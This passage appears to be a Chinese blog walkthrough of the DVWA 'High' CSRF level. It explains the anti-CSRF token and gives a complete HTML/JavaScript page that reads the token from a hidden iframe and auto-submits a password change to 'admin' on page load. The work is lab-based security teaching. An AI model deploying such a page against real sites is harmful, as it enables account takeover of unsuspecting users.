 ```
// Generate Anti-CSRF token      2
generateSessionToken();      2
?>
```




可以看到，High级别的代码加入了Anti-[CSRF](https://so.csdn.net/so/search?q=CSRF&spm=1001.2101.3001.7020) token机制，用户每次访问改密页面时，服务器都会返回一个随机的token，当浏览器向服务器发起请求时，需要提交token参数，而服务器在收到请求时，会优先检查token，只有token正确，才会处理客户端的请求。这里因为对请求的token进行了验证，所以比上两个等级的更加的安全。关于 token 抵御CSRF攻击，详情：[在请求地址中添加 token 并验证](https://blog.csdn.net/qq_36119192/article/details/82820115#%EF%BC%882%EF%BC%89%E5%9C%A8%E8%AF%B7%E6%B1%82%E5%9C%B0%E5%9D%80%E4%B8%AD%E6%B7%BB%E5%8A%A0%20token%20%E5%B9%B6%E9%AA%8C%E8%AF%81%20%C2%A0%20%C2%A0%20%C2%A0%20%C2%A0)



因为该请求是get请求，所以token验证会被放在请求URL中，我们随便输入密码验证一下，可以看到，在请求的URL中最末尾加入了token。



![](https://img-blog.csdn.net/20181001223036920?watermark/2/text/aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky/font/5a6L5L2T/fontsize/400/fill/I0JBQkFCMA==/dissolve/70)



所以现在要想进行CSRF攻击就必须获取到用户的token，而要想获取到 token 就必须利用用户的 cookie 值去访问修改密码的页面，然后截取服务器返回的token值。然后再利用CSRF漏洞构造URL进行密码的修改。



我们尝试利用下面的代码去构造一个页面，诱使用户点击，当用户点击该链接的这一刻，该代码会偷偷的访问修改用户密码的页面，然后获取到服务器返回的 token ，然后再构造修改密码的表单，加上我们获取到服务器的token值，向服务器发送修改密码的请求。



```
<!DOCTYPE html>      
<html>      
<head lang="en">      
    <meta charset="UTF-8">      
    <title></title>      
    <script type="text/javascript">      
        //获取用户的token，并设置为表单中的token，然后提交修改密码的表单      
        function attack()      
        {      1
            document.getElementsByName('user_token')[0].value=document.getElementById("hack").contentWindow.document.getElementsByName('user_token')[0].value;      1
            document.getElementById("transfer").submit();      1
        }      1
    </script>      1
</head>      1
<body onload="attack()">      1
    <iframe src="http://192.168.10.14/dvwa/vulnerabilities/csrf/" id="hack"  style="display:none;">  <!--在该网页内打开另一个网页-->      1
    </iframe>      1
    <form method="GET" id="transfer"  action="http://192.168.10.14/dvwa/vulnerabilities/csrf/">      1
        <input type="hidden" name="password_new" value="admin">      2
        <input type="hidden" name="password_conf" value="admin">      2
        <input type="hidden" name="user_token" value="">      2
        <input type="hidden" name="Change" value="Change">      2
    </form>      2
</body>      2
</html>
```
